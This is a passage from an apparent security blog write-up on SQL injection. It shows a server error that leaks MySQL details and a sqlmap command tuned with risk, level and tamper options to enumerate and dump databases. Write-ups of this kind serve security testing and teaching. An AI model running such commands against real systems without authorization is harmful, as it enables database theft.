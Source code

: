 ```http
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "code": 400,
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ' '*'' at line 1"
}
```

The server responds with an error message indicating a SQL syntax error. This suggests that the application is using a MySQL database. Further exploitation can be automated using SQLMAP.

## SQLMAP Automation

```bash
python .\sqlmap\sqlmap.py -r "request.txt" --batch --dbs --risk 3 --level 4 --random-agent --tamper=between --proxy=http://127.0.0.1:8080
```

### Dumping Database

![image](/assets/images/blogs/MA_SQLi/db.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).